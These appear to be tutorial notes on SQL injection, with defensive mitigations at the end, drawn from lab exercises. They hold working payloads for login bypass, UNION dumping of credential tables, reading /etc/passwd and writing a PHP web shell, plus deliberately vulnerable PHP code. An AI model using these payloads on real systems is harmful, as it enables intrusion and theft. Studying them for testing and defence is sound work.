










# SQL Injection (SQLi)

... refers to attacks against relational databases such as MySQL. An SQLi occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

## Use of SQL in Web Apps

Once a DBMS is installed and set up on the back-end server and is up running, the web app can start utilizing it to store and retrieve data.

For example, within a PHP web app, you can connect to your database, and start using the MySQL database through MySQL syntax, right within PHP. You can then print it to the page or use it in any other way.

```php
$conn = new mysqli("localhost", "root", "password", "users");
$query = "select * from logins";
$result = $conn->query($query);

while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
} // prints all returned results of the SQL query in new lines

```

Web apps also usually use user-input when retrieving data. For example, when a user uses the search function to search for other users, their search input is passed to the web app, which uses the input to search within the database.

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

## SQLi

... occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

No input sanitization example:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

In this case you can add a single quote ```'```, which will end the user-input field, and after it, you can write actual SQL code. If you search for ```1'; DROP TABLE users;```, the search input would be:

```sql
select * from logins where username like '%1'; DROP TABLE users;'
```

Once the query is run, the table will get deleted.

## Syntax Errors

The previous example of SQLi would return an error.

```php
Error: near line 1: near "'": syntax error
```

This is because of the last trailing character, where you have a single quote that is not closed, which causes a SQL syntax error when executed. In this case, you had only one trailing character, as your input from the search query was near the end of the SQL query. However, the user input usually goes in the middle of the SQL query, and the rest of the original SQL query comes after it.

To have a successful injection, you must ensure that the newly modified SQL query is still valid and does not have any syntax errors after your injection.

One answer to that problem is using **comments**. Another is to make the query syntax work by passing in multiple single quotes.

## Types of SQLi



- **In-Band** (_the output of both the intended and the new query may be printed directly on the front end_)
  - **Union Based** (_you may have to specify the exact location, so the query will direct the output to be printed there_)
  - **Error Based** (_is used when you can get the PHP or SQL erros in the front-end, so that you may intentionally cause an SQL error that returns the output of your query_)
- **Blind** (_you may not get the output printed, so you may utilize SQL logic to retrieve the output character by character_)
  - **Booleand Based** (_you can use SQL conditional statements to control whether the page returns any output at all if your condition statements returns 'true'_)
  - **Time Based** (_you use SQL conditional statements that delay the page response if the conditional statement returns 'true' using the 'Sleep()' function_)
- **Out-of-Band** (_you may not have direct access to the output whatsoever, so you may have to direct the output to a remote location, and then attempt to retrieve it from there_)

## Subverting Query Logic

### Authentication Bypass


You can log in with the admin creds ```admin:p@ssw0rd```.


The current SQL query being executed:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

The page takes in the credentials, then uses the AND operator to select records matching the given username and password. If the MySQL database returns matched records, the credentials are valid, so the PHP code would evaluate the login attempt condition as 'true'. If the condition evaluates to 'true', the admin record is returned. and your login is validated.

Example with wrong creds:


### SQLi Discovery

Before you start subverting the web app's logic and attempting to bypass the authentication, you first have to test whether the login form is vulnerable to SQLi. To do that, you can try to add one of the below payloads after your username and see if it causes any errors or changes how the page behaves:

| Payload | URL Encoded |
| ------- | ----------- |
| ```'``` | %27 |
| ```"``` | %22 |
| ```#``` | %23 |
| ```;``` | %3B |
| ```)``` | %29 |

Example for ```'```:


The quote you entered resulted in an odd number of quotes, causing a syntax error. One option would be to comment out the rest of the query and write the remainder of the query as part of your injection to form a workin query. Another option is to use an even number of quotes within your injected query, such that the final query would still work.

### OR Injection

You would need the query always to return true, regardless of the username and password entered, to bypass the authentication. To do this, you can abuse the OR operator in your SQLi.

An example of a condition that will always turn true is '1'='1'. However, to keep the SQL query working and keep an even number of quotes, you have to remove the last quote, so the remaining single quote from the original query would be in its place.

```sql
admin' or '1'='1
```

Inside the final query, it would look like:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

The AND operator will be evaluated first, and it will return false. Then, the OR operator would be eveluated, and if either of the statements is true, it would return true. Since 1=1 always returns true, this query will return true, and it will grant us access.

### Auth Bypass with OR Operator


You were able to log in successfully as admin. However, the login fails when using 'notAdmin' as a user, since that user does not exist in the table and therefore resulted in a false query overall.

To successfully login once again, you will need an overall true query. This can be achieved by injecting an OR condition into the password field, so it will always return true.



The additional OR condition resulted in a true query overall, as the WHERE clause returns everything in the table, and the user present in the first row is logged in. In this case, as both conditions will return true, you do not have to provide a test username and password and can directly start with ```'``` injection and log in with just ```' or '1'='1```.

### Enum with OR Operator

If the web app provides error information on bad queries, you could use the OR operator to enumerate the system.

```
' or 1=1 in (select @@version) -- //
```

You want to force the SQL statement to create a database error that the web page will display back to you. In this case, you want to retrieve the MySQL version via the `@@version` directive. You're using the IN operator to compare a boolean value (`1=1`) with what should be a numeric value. If this causes an error, the application might indicate which values caused the error and thus allow you to get the database version number.

Dumping all the data inside the users table.

```
' OR 1=1 in (SELECT * FROM users) -- //
```

Trying to grab only the password column from the users table.

```
' or 1=1 in (SELECT password FROM users) -- //
```

Specifying which user's password you want to retrieve:

```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## Using comments


Just like any other language, SQL allows the use of comments as well. Comments are used to document queries or ignore a certain part of the query. You can use two types of line comments with MySQL ```--``` and ```#```, in addition to an in-line comment ```/**/```.

```bash
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> In SQL, using two dashes is not enough to start a comment. There has to be an empty space after them, so the comment starts with '-- '. This is sometimes URL encoded as '--+', as spaces in URLs are encoded as '+'.

```#``` example:

```bash
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```

### Auth Bypass with comments

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

You can see from the syntax highlighting, the username is now admin, and the remainder of the query is now ignored as a comment.


#### Paranthesis

SQL supports the usage of pranthesis if the application needs to check for particular conditions before others. Expressions within the paranthesis take precedence over other operators and evaluated first.


The login failed due to a syntax error, as a closed one did not balance the open paranthesis. To execute the query successfully, you will have to add a closing paranthesis.



The query was successful, and you logged in as admin. The final query as a result of the input is:

```sql
SELECT * FROM logins where (username='admin')
```

## UNION Clause

... is used to combine results from multiple SELECT statements. This means that through a UNION injection, you will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases.

```bash
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> The data types of the selected columns on all positions should be the same

### Even columns

A UNION statement can only operate on SELECT statements with an equal number of columns. Otherwise:

```bash
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

The above query results in an error, as the first SELECT returns one column and the second SELECT returns two.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return ```username``` and ```password``` entries from the ```passwords``` table, assuming the ```products``` table has two columns.

### Uneven Columns

You will find out that the original query will usually not have the same number of columns as the SQL query you want to execute, so you will have to work around that. You can put junk data for the remaining required columns so that the total number of columns you are UNIONing with the remains the same as the original query.

> [!NOTE]
> When filling other columns with junk data, you must ensure that the data type matches the columns data type, otherwise the query will reutrn an error.

> [!TIP]
> For advanced SQLi, you may want to use 'NULL' to fill other columns, as 'NULL' fits all data types.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If you had more columns in the table of the original query, you have to add more numbers to create the remaining required columns.

```sql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

## UNION Injection

### Detect number of columns

#### Using ORDER BY

You have to inject a query that sorts the results by a column you specified until you get an error saying the column specified does not exist.

For example, you can start with ```order by 1```, sort by the first column, and succeed, as the table must have at least one column. Then you will do ```order by 2``` and then ```order by 3``` until you reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column you successfully sorted gives you the total number of columns.

```sql
' order by 1-- -
```

#### Using UNION

The other method is to attempt a UNION injection with a different number of columns until you successfully get the results back. The first method always returns the results until you hit an error, while this method always gives an error until you get success. You can start by injecting a 3 column UNION query:

```sql
cn' UNION select 1,2,3-- 
```

You get an error saying that the number of columns don't match. Now you can try four columns:

```sql
cn' UNION select 1,2,3,4-- 
```

This time you successfully get the results, meaning once again that the table has 4 columns. You can use either method to determine the number of columns.

### Location of Injection

While a query may return multiple columns, the web app may only display some of them. So, if you inject your query in a column that is not printed on the page, you will not get its output. This is why you need to determine which columns are printed to the page, to determine where to place your injection.

It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. This tells you that columns 2, 3, and 4 are printed to place your injection in any of them.

This is the benefit of using numbers as your junk data, as it makes it easy to track which columns are printed, so you know at which column to place your query. To test that you get actual data from the database, you can use the ```@@version``` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- 
```



### Database Enumeration

#### MySQL Fingerprinting

Before enumerating the database, we usually need to identify the type of DBMS you are dealing with. This is because each DBMS has different querries, and knowing what it is will help you know what queries to use.

Initial guesses:
- If webserver = Apache / Nginx
  - likely MySQL
- if webserver = IIS
  - MSSQL

For MySQL:

| Payload              | When to Use                       | Expected Output                                     | Wrong Output                                             |
| -------------------- | --------------------------------- | --------------------------------------------------- | -------------------------------------------------------- |
| **SELECT @@version** | when you have full query output   | MySQL Version 'i.e. ```10.3.22-MariaDB-1ubuntu1```' | in MSSQL it returns MSSQL version; error with other DBMS |
| **SELECT POW(1,1)**  | when you only have numeric output | ```1```                                             | error with other DBMS                                    |
| **SELCECT SLEEP(5)** | blind / no output                 | delays page response for 5 seconds and returns 0    | will not delay with other DBMS                           |

#### INFORMATION_SCHEMA Database

To pull data from tables using UNION SELECT, you need to properly from you SELECT queries. To do so, you need the following information:

- list of databases
- list of tables within each database
- list of columns within each table

This is where you can utilize the **INFORMATION_SCHEMA Database**. It contains metadata about the database and tables present on the server. This database plays a crucial role while exploiting SQLi vulnerabilities. As this is a different database, you cannot call its tables directly with a SELECT statement. If you only specify a table's name for a SELECT statement, it will look for tables within the same database.

So, to reference a table present in another DB, you can use the ```.``` operator. For example, to SELECT a table ```users``` present in a database named ```my_database```, you can use:

```sql
SELECT * FROM my_database.users;
```

#### SCHEMA

To start your enumeration, you should find what databases are available on the DBMS. The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server. It is used to obtain database names so you can then query them. The SCHEMA_NAME column contains all the database names currently present.

```bash
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

The SQLi looks like that:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

And you get a result like this:


You can see two databases ```ilfreight``` and ```dev```. To find out which database the web app is running to retrieve ports data from, you can use ```SELECT database()```.

```sql
cn' UNION select 1,database(),2,3-- 
```

#### TABLES

Before you dump data from the ```dev``` database, you need to get a list of the tables to query them with a SELECT statement. To find all tables within a database, you can use the TABLES table in the INFORMATION_SCHEMA Database.

The TABLES table contains information about all tables throughout the database. This table contains multiple columns, but you are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to. This can be done like this:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```



> [!NOTE]
> Added a (_where table_schema='dev'_) condition to only return tables from the 'dev' database, otherwise you would get all tables in all databases, which can be many

#### COLUMNS

To dump the data of the ```credentials``` table, you first need to find the column names in the table, which can be found in the COLUMNS table in the INFORMATION_SCHEMA database. The COLUMNS table contains information about all columns present in all the databases. This helps you find the column names to query a table for. The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```


The table has two columns named ```username``` and ```password```.

#### Data

Now that you have all the information, you can form your UNION query to dump data of the ```username``` and ```password``` columns from the ```credentials``` table in the ```dev``` database. You can place ```username``` and ```password``` in place of columns 2 and 3:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- 
```


### Reading & Writing Files

In addition to gathering data from various tables and databases within the DBMS, a SQLi can also be lveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

> [!NOTE]
> Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation.

#### DB User

First, you have to determine which user you are within the database. While you do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If you do have DBA privileges, then it is much more probable that you have file-read privileges. If you don't, then you have to check your privileges to see what you can do. To find your current DB user:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

So the payload will be:

```sql
cn' UNION SELECT 1, user(), 3, 4-- 
```



#### User Privileges

You can now start looking for what privileges you have with that user. First of all, you can test if you have super admin priviliges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

So the payload will be:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```

> [!TIP]
> If you had many users within the DBMS, you can add ```WHERE user="root"``` to only show privileges for your current user root.

A possible result can look like this:


The query returned ```Y```, which means YES, indicating superuser privileges. You can also dump other privileges you have from the schema:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```

Again, being more precise:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```



You can see that the ```FILE``` privilegeis listed for your user, enabling you to read files and potentially even write files.

#### LOAD_FILE

The ```LOAD_FILE()``` function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```


#### Write File Privileges

To be able to write files to the back-end server using a MySQL database, you require:

1. User with ```FILE``` privilege enabled
2. MySQL gloabl ```secure_file_priv``` variable not enabled
3. Write access to the location you want to write to on the back-end server

##### secure_file_priv

... is a variable used to determine where to read/write files from. An empty value lets you read files from the entire file system. Otherwise, if a certain directory is set, you can only read from the folder specified by the variable. On the other hand, ```NULL``` means you cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets you read/write to any file if the user has the ```FILE``` privilege. However, MySQL uses ```/var/lib/mysql-files``` as the default folder. This means reading files through a MySQL injection isn't possible with default settings. Even worse, some modern configurations default to ```NULL```, meaning that you cannot read/write files anywhere within the system.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

All variables and most configurations are stored within the INFORMATION_SCHEMA database. MySQL global variables are stored in a table called ```global_variables```, and as per the documentation, this table has two columns ```variable_name``` and ```variable_value```.

You have to select these two columns frm that table in the INFORMATION_SCHEMA database. There are hundreds of global variables in a MySQL configuration, and you don't want to retrieve all of them. You can filter the results to only show the ```secure_file_priv``` variable, using the WHERE clause.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So the payload will be:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```



```secure_file_priv``` is empty, meaning you can read/write files to any location.

#### SELECT INTO OUTFILE

... can be used to write data from select queries into files. This is usually used for exporting data from tables.

Usage example:

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

It is also possible to directly SELECT strings into files, allowing you to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

> [!TIP]
> Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

#### Writing Files through SQLi

First you write a text file to the webroot and verify if you have write permissions.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```

> [!NOTE]
> To write a web shell, you must know the base web directory for the web server. One way to find it is to use ```load_file``` to read the server config, like Apache's config found at ```/etc/apache2/apache2.conf```, Nginx's config at ```/etc/nginx/nginx.conf```, IIS config at ```%WinDir%System32\Inetsrv\Config\ApplicationHost.config```. You can also try wordlists to fuzz: [Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) and [Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

If there are no errors, that indicates that the query was succeeded. But can check too:


#### Writing a Web Shell

Having confirmed write permissions, you can go ahead and write a PHP web shell to the webroot folder.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```

If there are no errors, you can now browse to ```/shell.php``` and execute commands via the parameter ```0```, with ```?0=id``` in your URL.


## Blind SQL Injection

Blind SQL injections describe scenarios in which databse responses are never returned and behavior is inferred using either boolean- or time-based logic.

As an example, generic boolean-based blind SQLi cause the application to return different and predictable values whenever the database query returns a TRUE or FALSE result, hence the "boolean" name. These values can be reviewed within the application context.

Time-based blind SQLi infer the query by instructing the database to wait for a specified amount of time. Based on the response time, the attacker can conclude if the statement is TRUE or FALSE.

After encountering the following page:



... and closely reviewing the URL, you'll notice that the application takes a user parameter as input, defaulting to `offsec` since this is your current logged-in user. The application then queries the user's record, returning the username, password, hash, and description values.

To test for boolean-based SQLi, you can try to append the below payload to the URL:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

Sine `1=1` will always be TRUE, the application will return the values only if the user is present in the database. Using this syntax, you could enumerate the entire database for other usernames or even extend your SQL query to verify data in other tables.

You can achieve the same result by using a time-based SQLi payload:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

In this case, you appended an IF condition that will always be true inside the statement itself but will return false if the user is non-existent.

You know that the user `offsec` is active, so if you paste the above URL payload into your Kali VM's browser, you'll notice that the application hangs for about three seconds.

## SQLi Mitigation

### Input Sanitization

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```

The script takes in the username and password from the POST request and passes it to the query directly. This will let an attacker inject anything they wish and exploit the app. Injection can be avoided by sanitizing any user input, rendering injected queries useless. Libraries provide multiple functions to achieve this, one such example is the ```mysql_real_escape_string()``` function. This function escapes characters such as ```'``` and ```"```, so they don't hold any special meaning.

Usage example:

```php
<SNIP>
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
echo "Executing query: " . $query . "<br /><br />";
<SNIP>
```

#### Input Validation

User input can also be validated based on the data to query to ensure that it matches the expected input. For example, when taking an email as input, you can validate that the input is in the form of ```...@gmail.com```.

```php
<?php
if (isset($_GET["port_code"])) {
	$q = "Select * from ports where port_code ilike '%" . $_GET["port_code"] . "%'";
	$result = pg_query($conn,$q);
    
	if (!$result)
	{
   		die("</table></div><p style='font-size: 15px;'>" . pg_last_error($conn). "</p>");
	}
<SNIP>
?>
```

You see the GET parameter ```pord_code``` being used in the query directly. It's already known that a port code consists only of letters and spaces. You can restrict the user input to only these characters, which will prevent the injection of queries. A regular expression can be used for validating the input:

```php
<SNIP>
$pattern = "/^[A-Za-z\s]+$/";
$code = $_GET["port_code"];

if(!preg_match($pattern, $code)) {
  die("</table></div><p style='font-size: 15px;'>Invalid input! Please try again.</p>");
}

$q = "Select * from ports where port_code ilike '%" . $code . "%'";
<SNIP>
```

The code is modified to use the ```preg_match()``` function, which checks if the input matches the given pattern or not. The pattern used is ```[A-Za-z\s]+```, which only matches strings containing letters and spaces. Any other character will result in the termination of the script.

#### User Privileges

DBMS software allows the creation of users with fine-grained permissions. You should ensure that the user querying the database only has minimum permissions.

Superusers and users with administrative privileges should never be used with web applications. These accounts access to functions and features, which could lead to server compromise.

```bash
MariaDB [(none)]> CREATE USER 'reader'@'localhost';

Query OK, 0 rows affected (0.002 sec)


MariaDB [(none)]> GRANT SELECT ON ilfreight.ports TO 'reader'@'localhost' IDENTIFIED BY 'p@ssw0Rd!!';

Query OK, 0 rows affected (0.000 sec)
```

The commands above add a new MariaDB user named ```reader``` who is granted only SELECT privileges on the ports table. You can verify the permissions for this user by logging in:

```bash
d41y@htb[/htb]$ mysql -u reader -p

MariaDB [(none)]> use ilfreight;
MariaDB [ilfreight]> SHOW TABLES;

+---------------------+
| Tables_in_ilfreight |
+---------------------+
| ports               |
+---------------------+
1 row in set (0.000 sec)


MariaDB [ilfreight]> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| information_schema |
| ilfreight          |
+--------------------+
2 rows in set (0.000 sec)


MariaDB [ilfreight]> SELECT * FROM ilfreight.credentials;
ERROR 1142 (42000): SELECT command denied to user 'reader'@'localhost' for table 'credentials'
```

#### Web Application Firewall (WAF)

